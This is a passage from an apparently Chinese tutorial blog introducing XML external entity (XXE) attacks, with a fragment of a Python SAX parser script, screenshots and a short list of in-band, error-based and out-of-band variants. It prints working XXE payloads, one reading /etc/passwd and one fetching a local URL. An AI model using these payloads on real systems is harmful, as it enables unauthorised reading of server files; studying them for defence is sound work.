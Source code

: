 ```

    try:                                                             #(e)
        reader.parse( xmldoc )                                       #(f)
    except xml.sax.SAXParseException, e:                             #(g)
        print "  parsing error:    ", e.getMessage()                 #(h)
        print "  in line:          ", e.getLineNumber()              #(i)
        print "  at location:      ", e.getColumnNumber()            #(j)
        print "  exception raised: ", e.getException()               #(k)
        print "  for event ID:     ", e.getPublicId()                #(l) 
        print "  for system ID:    ", e.getSystemId()                #(m) 
        sys.exit(1)                                                  #(n)
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/5afa2913a3a641b98b3792b7eb4239de.png)

赋予执行权限后，使用xml解析器解析xml文件
![在这里插入图片描述](https://img-blog.csdnimg.cn/82cae27ce0f5425894289951550aa2f7.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAQmExX01hMA==,size_20,color_FFFFFF,t_70,g_se,x_16)
成功的输出了text.txt里的内容
尝试读取敏感文件内容
```
<?xml version="1.0"?>
<!DOCTYPE XXE [
	<!ENTITY subscribe SYSTEM "/etc/passwd">    //命名了一个叫subscribe的实体，system的作用是获取外部资源并将其存储在实体中
]>
<baimao>&subscribe;</baimao>    //调用了subscribe实体
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/cd815b11479e4e33b9fe525abbb23deb.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAQmExX01hMA==,size_20,color_FFFFFF,t_70,g_se,x_16)
使用xml解析器解析xml文件
![在这里插入图片描述](https://img-blog.csdnimg.cn/41dbe6f03da745b7afa611d15ee4469d.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAQmExX01hMA==,size_20,color_FFFFFF,t_70,g_se,x_16)
成功的读取了内容
读取本地文件的这种攻击被称为xml外部实体攻击，简称为XXE
然而，读取本地文件只是开始，我们还可以将URL放入其中
```
<?xml version="1.0"?>
<!DOCTYPE XXE [
	<!ENTITY subscribe SYSTEM "http://127.0.0.1/test.txt">    //命名了一个叫subscribe的实体，system的作用是获取外部资源并将其存储在实体中
]>
<baimao>&subscribe;</baimao>    //调用了subscribe实体
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/eb0f5591f9fc4dc8a04686c899a0d0f2.png)
使用xml解析器解析xml文件
![在这里插入图片描述](https://img-blog.csdnimg.cn/6d28d68046034dbaac42ab52ee098aaf.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAQmExX01hMA==,size_20,color_FFFFFF,t_70,g_se,x_16)
也成功的读取了内容
XXE也有许多不同的类型
## Inband
上面演示的实例就是关于inband的，xml被解析，直接输出到屏幕上
## Error
error有一点像一个盲目的xxe，都是一堆错误，看不到很多的信息
## OOB
最后是oob，xml被解析，但你看不到任何输出，必须做某种越界请求来泄露数据
实战在下一篇的xxe文章中会详细写道，这一篇只是简单介绍什么是xxe以及原理
